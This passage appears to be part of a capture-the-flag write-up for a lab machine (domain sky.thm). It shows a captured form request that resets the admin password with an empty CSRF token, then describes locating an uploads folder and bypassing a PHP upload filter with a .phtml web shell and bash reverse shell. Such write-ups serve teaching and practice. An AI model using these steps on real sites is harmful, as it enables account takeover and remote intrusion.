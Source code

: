 ```
------WebKitFormBoundaryesnSIzdbDxaMXJrZ

Content-Disposition: form-data; name="uname"



admin@sky.thm

------WebKitFormBoundaryesnSIzdbDxaMXJrZ

Content-Disposition: form-data; name="npass"



test

------WebKitFormBoundaryesnSIzdbDxaMXJrZ

Content-Disposition: form-data; name="cpass"



test

------WebKitFormBoundaryesnSIzdbDxaMXJrZ

Content-Disposition: form-data; name="ci_csrf_token"





------WebKitFormBoundaryesnSIzdbDxaMXJrZ

Content-Disposition: form-data; name="send"



Submit

------WebKitFormBoundaryesnSIzdbDxaMXJrZ--
```

Once logged as the admin I started trying to upload profile pictures, burp was telling me files were getting uploaded but my profile picture was still the same. I had to find where were the images. That con be found by looking at the html source code, a part near the end has a comment saying `/v2/profileimages`.

If you go to that directory you won't find anything but if you add the name of the file you uploaded you will see it. I also found out you can upload php files but when you try and execute the server won't respond. However this does not happen with phtml so I uploaded a phtml cmd and a bash reverse shell and executed them to gain remote access.
